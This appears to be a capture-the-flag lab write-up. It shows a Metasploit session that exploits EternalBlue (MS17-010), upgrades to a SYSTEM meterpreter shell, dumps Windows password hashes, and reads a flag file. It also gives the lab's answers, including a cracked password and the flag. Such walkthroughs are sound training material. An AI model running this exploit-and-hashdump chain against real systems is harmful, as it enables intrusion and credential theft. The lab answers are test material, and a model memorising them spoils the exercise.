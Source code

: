 ```bash


View the full module info with the info, or info -d command.

msf6 post(multi/manage/shell_to_meterpreter) > set SESSION 1
SESSION => 1
msf6 post(multi/manage/shell_to_meterpreter) > run
msf6 exploit(windows/smb/ms17_010_eternalblue) > sessions -l

Active sessions
===============

  Id  Name  Type                     Information                                                                Connection
  --  ----  ----                     -----------                                                                ----------
  1         shell x64/windows        Shell Banner: Microsoft Windows [Version 6.1.7601] Copyright (c) 2009 Mic  10.10.158.144:4444 -> 10.10.75.105:49197 (10.10.75.105)
                                     ros...
  2         meterpreter x64/windows  NT AUTHORITY\SYSTEM @ JON-PC                                               10.10.158.144:4433 -> 10.10.75.105:49217 (10.10.75.105)

msf6 exploit(windows/smb/ms17_010_eternalblue) > sessions 2
[*] Starting interaction with 2...

meterpreter > hashdump
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Jon:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d:::
```
- Within our elevated meterpreter shell, run the command 'hashdump'. This will dump all of the passwords on the machine as long as we have the correct privileges to do so. What is the name of the non-default user? `Jon`
    
- Copy this password hash to a file and research how to crack it. What is the cracked password? `alqfna22`

### Task5
```bash
C:\>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is E611-0B66

 Directory of C:\

03/17/2019  02:27 PM                24 flag1.txt
07/13/2009  10:20 PM    <DIR>          PerfLogs
04/12/2011  03:28 AM    <DIR>          Program Files
03/17/2019  05:28 PM    <DIR>          Program Files (x86)
12/12/2018  10:13 PM    <DIR>          Users
03/17/2019  05:36 PM    <DIR>          Windows
               1 File(s)             24 bytes
               5 Dir(s)  20,439,040,000 bytes free

C:\>type flag1.txt
type flag1.txt
flag{access_the_machine}

C:\Windows\System32\config>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is E611-0B66
```